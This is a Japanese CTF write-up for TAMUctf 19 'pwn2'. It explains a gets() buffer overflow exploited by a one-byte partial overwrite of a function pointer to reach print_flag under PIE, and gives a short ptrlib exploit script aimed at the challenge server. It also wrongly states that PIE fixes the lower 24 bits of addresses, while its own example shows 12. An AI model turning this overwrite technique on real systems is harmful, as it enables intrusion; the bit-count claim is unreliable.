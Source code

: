 # [pwn 356pts] pwn2 - TAMUctf 19
32ビットでPIE有効、Full RELROです。
```
$ checksec pwn2
[*] 'pwn2'
    Arch:       32 bits (little endian)
    NX:         NX enabled
    SSP:        SSP disabled (No canary found)
    RELRO:      Full RELRO
    PIE:        PIE enabled
```
文字列を入力して`one`なら`one`関数が、それ以外なら`two`関数が呼ばれます。
なお、これが呼ばれる`select_func`関数では`main`関数で入力した文字列をstrcpyでコピーします。
また、使われていない`print_flag`関数が存在します。

文字列の入力にはgetsが使われているのでバッファオーバーフローが存在します。
また、`select_func`関数にはジャンプする関数のアドレスを入れておく変数が存在します。
したがって、オーバーフローでこのアドレスを`print_flag`のものに書き換えればよさそうです。

さて、一見PIEが有効で困っているようですが、関数`two`のアドレスは0x6ad、`print_flag`のアドレスは0x6d8です。
また、PIEは実行ファイルをランダムなアドレスに配置しますが、そのアドレスは0x?????000のように下位24bitは0で固定です。
例えば`two`のアドレスが0x5678a6adだったとき、`printf_flag`は0x5678a6d8`に存在します。
したがって、`two`のアドレスが入った変数の下位1バイトを0xd8に上書きしてやれば`print_flag`を呼ぶことができます。

```python
from ptrlib import *

sock = Socket("pwn.tamuctf.com", 4322)

payload = b'A' * 0x1E
payload += b'\xd8'
sock.recvline()
sock.sendline(payload)
sock.interactive()
```

# 感想
シンプルなバッファオーバーフローの問題です。
オーバーフローをどのように利用するかという点で、pwn入門者が脆弱性を見つける練習になると思います。
ただPIEの挙動を理解しておく必要があるので注意です。